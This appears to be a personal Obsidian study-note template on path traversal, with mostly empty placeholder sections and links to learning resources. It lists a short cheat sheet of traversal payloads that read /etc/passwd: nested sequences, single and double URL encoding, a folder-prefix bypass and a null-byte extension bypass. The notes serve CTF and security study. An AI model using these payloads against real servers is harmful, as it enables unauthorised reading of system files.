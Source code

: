 # Path Traversal

## Overview

What this technique is and when I need it

## Key Concepts

Important things to understand about this technique

## Common Methods

Absolute file path: 
```bash
filename=/etc/passwd
```

When escape sequenced are stripped:
```bash
# Nested Traversal Sequence
....//....//etc//passwd
```

When input is sanitised:
```bash
# Single URL Encoding
%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd

# Double URL Encoding
..%252f..%252f..%252fetc/passwd
```

When a specific folder is expected:
```bash
/var/www/images/../../../etc/passwd
```

When a specific file extension is expected:
```bash
# NULL Characater %00
../../../etc/passwd%00.png
```

## Practical Examples

Real-world scenarios where I've used this

## Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #path-traversal
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- [Title Unavailable \| Site Unreachable](https://portswigger.net/web-security/learning-paths/path-traversal/)
- [PayloadsAllTheThings/Directory Traversal/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)

#path-traversal #technique